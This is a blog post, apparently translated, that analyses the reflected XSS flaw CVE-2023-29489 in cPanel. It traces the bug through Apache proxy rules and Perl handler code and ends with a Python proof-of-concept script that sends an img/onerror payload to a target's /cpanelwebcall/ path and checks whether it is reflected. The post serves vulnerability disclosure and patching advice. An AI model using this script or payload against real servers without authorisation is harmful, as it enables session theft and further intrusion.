 ```yaml
---
layout: post
title: "Analysis of CVE-2023-29489: Reflected XSS in cPanel"
date: 2024-09-10
---
```


The CVE-2023-29489[1] refers to a reflected Cross-Site Scripting (XSS)[2] vulnerability identified in the cPanel[3] web hosting control panel software, which is widely used on the web. The XSS vulnerability allows an attacker to execute malicious scripts on a page being accessed by other users. The attacker does not need to be authenticated in order to do that.

This vulnerability was identified on April 26, 2023, by the Assetnote's[4] security team, an Australian security company. The vulnerability affects versions of cPanel prior to 11.109.9999.116 and was fixed in versions 11.109.9999.116, 11.108.0.13, 11.106.0.18, and 11.102.0.31 or later versions.

This publication is also disponible in: [Portuguese](https://blog.lesis.lat/blog/CVE-2023-29489/)

---

### Description

The cPanel software is written in Perl[5], with binaries generated from Perl code. Based on the binaries accessible in the **/cgi-sys/** directory on the management ports, it becomes evident that these binaries were originally Perl code and are remotely called via HTTP requests.

Besides the binaries inside **/cgi-sys/**, some cPanel functionalities and web applications are served through the cpsrvd binary. The cpsrvd binary runs by default on ports: 2082, 2083, 2086, 2087. For this, cPanel uses Apache's[6] reverse proxy features, and the configuration for this can be found in **/etc/apache2/conf/httpd/conf/**. These proxying and script aliasing configurations define areas that are potentially interesting for attacks:

```
ProxyPass /cpanelwebcall/ http://127.0.0.1:2082/cpanelwebcall/ max=1 retry=0

... omitted for brevity ...

ScriptAlias /.cpanel/dcv /usr/local/cpanel/cgi-priv/get_local.cgi

RewriteEngine On

RewriteCond %{REQUEST_URI} ^/\.well-known/acme-challenge/[0-9a-zA-Z_-]+$ [OR]
RewriteCond %{REQUEST_URI} ^/\.well-known/cpanel-dcv/[0-9a-zA-Z_-]+$ [OR]
RewriteCond %{REQUEST_URI} ^/\.well-known/pki-validation/[A-F0-9]{32}\.txt(?:\ Sectigo\ DCV)?$ [OR]
RewriteCond %{REQUEST_URI} ^/\.well-known/pki-validation/(?:\ Ballot169)?
RewriteRule ^ /.cpanel/dcv [passthrough]
```

The file **Cpanel/Server/Handlers/Httpd.pm** has a specific logic related to path handling. This allowed for the mapping of attack surfaces. Within httpd.pm, there is a code snippet that routes all requests from a path beginning with **/panelwebcall** to a function called **_server_cpanelwebcall**, which in turn calls another function, **Chanel::Server::WebCalls::handle**, with a portion of the URL as an argument:

```perl
elsif ( 0 == rindex( $doc_path, '/cpanelwebcall/', 0 ) ) {
        # First 15 chars are “/cpanelwebcall/”
        _serve_cpanelwebcall(
            $self->get_server_obj(),
            substr( $doc_path, 15 ),
        );
    }
```


The function **_serve_cpanelwebcall** looks like this:

```perl
sub _serve_cpanelwebcall ( $server_obj, $webcall_uri_piece ) {
    require Cpanel::Server::WebCalls;
    my $out = Cpanel::Server::WebCalls::handle($webcall_uri_piece);

    $server_obj->respond_200_ok_text($out);

    return;
}
```


Which leads us to the function **Chanel::Server::WebCalls::handle**:

```perl
sub handle ($request) {

    my $id = extract_id_from_request($request);
    substr( $request, 0, length $id ) = q<>;

    Cpanel::WebCalls::ID::is_valid($id) or do {
        die _http_invalid_params_err("Invalid webcall ID: $id");
    };
```

The `handle` function extracts an ID from the request and then modifies the request by removing the ID. If the ID is not valid, it generates an error indicating the invalid request. When the error occurs, the function **_httpd_invalid_params_err** is called, which creates an exception called **cpsrvd::BadRequest** that leads to the **Cpanel::Server::Handlers::ErrorPage** module. Within this module, there is a variable called **message_html**. The vulnerability lies in this variable because it does not sanitize the error message when inserting the invalid ID.

---

### Proof of Concept

Exploit:

```python
#!/usr/bin/env python3
import requests
import argparse
import re

def exploit(target):
    payload = "<img%20src=x%20onerror='alert(1)'>foo"
    if not re.match(r'^https?://', target):
        target = f"https://{target}"

    try:
        response = requests.get(f"{target}/cpanelwebcall/{payload}")
        if payload in response.text:
            return f"The payload [{payload}] worked!"
        else:
            return f"The target [{target}] is not vulnerable."
    except requests.exceptions.RequestException as e:
            return(f"Error making request for {target} -> {e}")

def main():
    parser = argparse.ArgumentParser(description="CVE-2023-29489 | XSS in cPanel")
    parser.add_argument("-t", "--target", required=True)
    args = parser.parse_args()

    try:
        print(exploit(args.target))
    except KeyboardInterrupt:
         exit(1)
    except EOFError:
         exit(1)
if __name__ == '__main__':
    main()
```


---

### Impact

The impact of this vulnerability allows an attacker to execute arbitrary JavaScript code, without being authenticated, on nearly any port of a web server running cPanel. 

This happens due to the proxy rules permitting access to the **/cpanel/** directory through ports 80 and 443, as requests are redirected by Apache to the cPanel management ports.

The fact that the cPanel management ports are vulnerable to XSS allows an attacker to steal a legitimate user's session. Once authenticated as a legitimate user, it is possible to upload a web shell[7] and gain remote command execution on the server.

Therefore, the vulnerability poses a significant threat to the application's security, and it is highly recommended that system administrators update to the latest version.

---

### Conclusion

The cPanel version discussed here has a vulnerable surface that allows an attacker to execute malicious scripts on pages accessed by regular users, without requiring authentication to exploit it. This vulnerability can be exploited regardless of whether the cPanel ports (2080, 2082, 2083, 2086) are exposed externally.

Exploiting this vulnerability can lead to arbitrary JavaScript code execution on nearly all ports of a web server running cPanel. This occurs due to proxy rules that permit access to the **/cpanel/** directory even through ports 80 and 443, with requests being redirected to the cPanel management ports by Apache's proxy configuration.

The vulnerability was addressed with patches available in versions after cPanel 11.109.9999.116. It is crucial for system administrators to update their systems to the latest version of cPanel and apply the available patches to mitigate the threats.

---

### Authorship

This article was written by **Lucas Katashi**, who currently works as a pentester and is passionate about Red Teaming. He enjoys coding tools and considers Burp Suite his best friend.

- The translation was done by **Giovanni Sagioro**: a Computer Science student, seeker of the Perl wisdom, and security researcher. Focused on application security, vulnerability discovery, and exploit development. As Larry Wall says—‘Easy things should be easy, and hard things should be possible’—so I’m trying to make the hard things possible.

---

### References

* [1] [MITRE - CVE-2023-29489](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-29489)
* [2] [PortSwigger - Cross-site Scripting](https://portswigger.net/web-security/cross-site-scripting)
* [3] [Hostinger - Domine o cPanel: Prós, Contras e Como Usar](https://www.hostinger.com.br/tutoriais/cpanel-o-que-e-painel-de-hospedagem)
* [4] [Assetnote - Finding XSS in a million websites (cPanel CVE-2023-29489)](https://www.assetnote.io/resources/research/finding-xss-in-a-million-websites-cpanel-cve-2023-29489)
* [5] [Perl - Flexible & Powerful](https://www.perl.org)
* [6] [Apache - Software for the public good](https://www.apache.org)
* [7] [Wikipedia - Web Shell](https://en.wikipedia.org/wiki/Web_shell)
